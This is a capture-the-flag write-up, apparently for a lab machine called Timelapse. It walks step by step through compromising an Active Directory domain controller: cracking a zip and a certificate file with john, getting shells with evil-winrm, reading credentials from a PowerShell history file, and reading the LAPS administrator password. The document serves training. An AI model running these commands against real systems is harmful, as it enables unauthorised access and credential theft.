





# Timelapse

### Reconnaissance

Nmap scans run very slowly on the target

Appears to be an Active Directory DC; kerberos, ldap, ldaps, dns, etc. running on the target

**Port 445 SMB**

Shares are visible

Inside the share there are 2 directories, Dev and HelpDesk

Dev contains a password protected zip archived (cracked) .pfx file (cracked), and HelpDesk contains documents
on LDAPS and an LDAPS x64 .msi file (hint hint?)

### Exploitation

Crack the .zip

`zip2john winrm_backup.zip > zip_hash.txt`
`john -w=rockyou.txt zip_hash.txt`

Crack the .pfx

`pfx2john legacyy_dev_auth.pfx | john -w=rockyou.txt /dev/stdin`

Extract to a .pem file

`openssl pkcs12 -in legacyy_dev_auth.pfx -nodes -out cert.pem`

Use Evil-WinRM to get a user shell with the .pem file

`evil-winrm -i 10.10.11.152 -S -k cert.pem -c cert.pem`

Check services with evil-winrm

Manual enumeration leads us to the PowerShell history for legacyy

`C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

Which contains credentials for the svc_deploy user

Use Evil-WinRM to get a shell as svc_deploy

`evil-winrm -i 10.10.11.152 -S -u svc_deploy -p password`

svc_deploy is a member of the group LAPS_Reader, which means we can read the Administrator password

`PS C:\> Get-AdComputer DC01 -Property 'ms-mcs-admpwd'`

Use the password to get a shell with Evil-WinRM as the Administrator

### Lessons Learned

- Check your nmap scans are behaving normally! -A is weird, use -sC -sV

- .pfx files can be cracked with john, then extracted [to .pem](https://www.xolphin.com/support/Certificate_conversions/Convert_pfx_file_to_pem_file) or [to .key](https://support.citrix.com/article/CTX229158/how-to-extract-the-private-and-public-key-from-pfx-file) files
exit

- When using `ls` in `smbclient` add \ after the directory name to list the contents e.g. `smb: \> ls Dev\`

- Evil-WinRM can be used with pem files

- Read LAPS Administrator passwords with `Get-ADComputer <PC name> -Property 'ms-mcs-admpwd'`
